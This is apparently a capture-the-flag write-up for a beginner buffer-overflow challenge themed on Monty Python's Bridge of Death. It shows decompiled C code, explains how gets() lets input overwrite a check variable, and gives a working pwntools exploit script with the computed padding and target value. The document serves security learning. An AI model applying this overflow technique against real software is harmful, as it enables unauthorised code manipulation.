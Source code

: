 This challenge is pretty much the same as the last one, the only step-up in difficulty is needing to input some strings the application is checking for, before sending our exploit.

```
undefined4 main(void)
{
  int isInputCorrect;
  char input [43];
  uint valueToChange;
  
  setvbuf(stdout,(char *)0x2,0,0);
  valueToChange = 0;
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other  side he see."
      );
  puts("What... is your name?");
  fgets(input,0x2b,stdin);
  isInputCorrect = strcmp(input,"Sir Lancelot of Camelot\n");
  if (isInputCorrect != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(input,0x2b,stdin);
  isInputCorrect = strcmp(input,"To seek the Holy Grail.\n");
  if (isInputCorrect != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is my secret?");
  gets(input);
  if (valueToChange == 0xdea110c8) {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```

We can see that the application reads our input twice using `fgets` and setting a limit for our input, protecting itself from a buffer overflow. But the third time it asks for our input, besides not comparing it against anything (weird in the context of the application), it uses the `gets` function and therefore is vulnerable to a buffer overflow, so we only have to figure out how many bytes we have to write until we overflow into `valueToChange`.

(When writing this, I saw that the application kinda just tells you how many bytes you can write before overflowing, but at the time of solving I didn't catch it , `fgets(input,0x2b,stdin)` tells us exactly how much we can write before overflowing, but when reading I honestly assumed that it was just some safe value, and not literally the bounds of the buffer :/ )

```
undefined4 __cdecl main(void)
 undefined4        EAX:4          <RETURN>
 undefined4        EAX:4          isInputCorrect
 undefined4        Stack[0x0]:4   local_res0
 undefined1        Stack[-0x10]:1 local_10
 undefined4        Stack[-0x14]:4 local_14
 uint              Stack[-0x18]:4 valueToChange
 undefined1[43]    Stack[-0x43]   input
```

Looking at the stack, we can see that we need to write `0x43 - 0x18` bytes to fully fill the input buffer and start overflowing into `valueToChange`, so I quickly wrote this script to exploit this binary.

```
from pwn import *

pwn1 = process('./pwn1')
payload = b"A"* (0x43 - 0x18) +  p32(0xdea110c8)

pwn1.send("Sir Lancelot of Camelot\n")
pwn1.send("To seek the Holy Grail.\n")
pwn1.sendline(payload)

pwn1.interactive()
```

While this challenge didn't really teach me much after the last one, it was indeed useful in practicing what we learned and making me a better hacker.